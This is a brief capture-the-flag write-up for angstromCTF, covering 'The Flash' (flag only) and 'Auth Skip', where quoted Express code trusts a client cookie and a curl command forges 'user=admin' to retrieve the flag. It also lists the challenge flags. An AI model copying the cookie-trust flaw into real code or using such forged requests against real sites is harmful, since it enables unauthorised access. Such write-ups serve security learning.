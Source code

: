 # angstromCTF

# ****The Flash****

`actf{sp33dy_l1ke_th3_fl4sh}`

![Untitled](writeup_media/Untitled.png)

# Auth Skip

```jsx
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});
```

```bash
curl https://auth-skip.web.actf.co/ --cookie "user=admin"
>actf{passwordless_authentication_is_the_new_hip_thing
```

![Untitled](writeup_media/Untitled%201.png)
